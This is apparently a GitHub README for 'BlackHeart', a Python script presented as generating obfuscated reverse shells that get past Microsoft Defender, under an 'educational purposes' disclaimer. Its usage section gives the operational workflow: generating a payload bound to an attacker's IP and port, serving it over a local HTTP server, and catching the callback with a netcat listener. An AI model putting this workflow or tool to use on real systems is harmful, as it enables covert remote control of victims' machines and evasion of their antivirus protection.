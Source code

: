 # BlackHeart
<img src="https://img.shields.io/badge/-Linux-black?style=for-the-badge&logo=Linux&logoColor=white"> <img src="https://img.shields.io/badge/-Python-black?style=for-the-badge&logo=python&logoColor=white"><br>

BlackHeart is a simple python script to demonstrate reverse shell gaining without Microsoft Defender restrictions. (FOR EDUCATIONAL PURPOSES!!)

# Updates
<b>04/09/2022</b>

- [X] Added basic obfuscation to reverse shell file.
- [X] Bug fixes.

# Setup
You can use simply the following command<br>
```bash
pip3 install -r requirements.txt
```

# Usage
- First of all you have to generate a template for your shell.
```bash
python3 blackheart.py --lhost YOUR_IP --lport YOUR_PORT
```

- Then you have to open a simple http server to serve your template.
```bash
python3 -m http.server
```

- And you need to open a listener port to listen incoming connections.
```bash
nc -lvp 4545
```

# PoC
https://user-images.githubusercontent.com/42123683/187213124-dfadfa31-2afe-4016-961a-eddea6726500.mp4
